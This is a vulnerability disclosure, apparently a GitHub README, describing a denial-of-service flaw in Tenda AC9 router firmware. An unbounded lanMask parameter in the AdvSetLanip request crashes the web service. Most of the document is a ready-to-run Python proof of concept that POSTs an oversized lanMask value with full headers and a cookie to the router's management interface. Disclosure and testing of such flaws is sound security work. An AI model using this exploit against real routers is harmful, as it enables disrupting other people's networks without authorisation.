



# Tenda_AC9_AdvSetLanip_Denial_of_service 

Vender ：Tenda

Firmware version:US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-2908.html

#### Describe

In Tenda AC9 ,firemware is US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin， In the option to control LAN setting, lanmask and lanip in the post  request are not limited in length.   Denial of service caused by The subsequent getIPType function

#### Detail



#### TEST




 Web services will crash




#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/AdvSetLanip"

payload = "a"*0x200
f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"lanIp":"192.168.33.9",
	"lanMask":"255.255.255.0"+payload,
	"dhcpEn": "",
	"startIp":"",
	"endIp":"",
	"leaseTime":"604800",
	"lanDnsAuto":"1",
	"lanDns1":"",
	"lanDns2":""
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/lan.html?random=0.6683676169698874&",
	"Upgrade-Insecure-Requests":"1",
	"Cookie":"password=wnucvb"
}
response = requests.request("POST", url, headers=headers, data=data)
```

